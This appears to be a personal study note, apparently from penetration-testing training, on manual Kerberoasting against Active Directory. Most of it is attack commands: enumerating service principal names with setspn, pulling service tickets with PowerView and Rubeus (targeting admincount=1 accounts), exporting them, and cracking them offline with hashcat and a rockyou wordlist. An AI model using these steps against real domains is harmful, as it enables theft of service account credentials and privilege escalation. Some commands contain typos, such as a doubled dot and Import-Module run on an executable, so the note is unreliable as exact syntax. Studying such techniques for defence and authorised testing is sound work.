 Manual Kerberoasting Method
- From cmd line, you can run setspn.exe:
	- setspn..exe -Q */* 
		-After -Q it is asterisk/asterisk but prompt won't show the **

 - From PowerShell:
	 - Transfer PowerView tool script over to Victim Host
	 - Import-Module .\\PowerView.ps1
	 - Get-DomainUser * -spn | select samaccountname
		 - This will extract all TGS Tickets for the Domain
	- From list, you can run the following command to grab a ticket:
			- Get-DomainUser -Identity <targetedTGS> | Get-DomainSPNTicket -Format Hashcat
			OR
			- Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
				- This command will send all TGS to a CSV File for offline hash cracking


Rubeus is another tool that can perform the same as PowerView, provides a different output:
- Import-Module .\Rubeus.exe 
- .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	- admincount=1 sets this query to go for high-value targets 
	- /nowrap makes sure that the hash can be easily copied for offline cracking


- After grabbing hashes, take them offline with hashcat:
	- hashcat -m 13100 targeted.txt <TGS you want to crack offline> /usr/share/wordlists/rockyou.txt --force
		- This will force hashcat to brute force the tickets

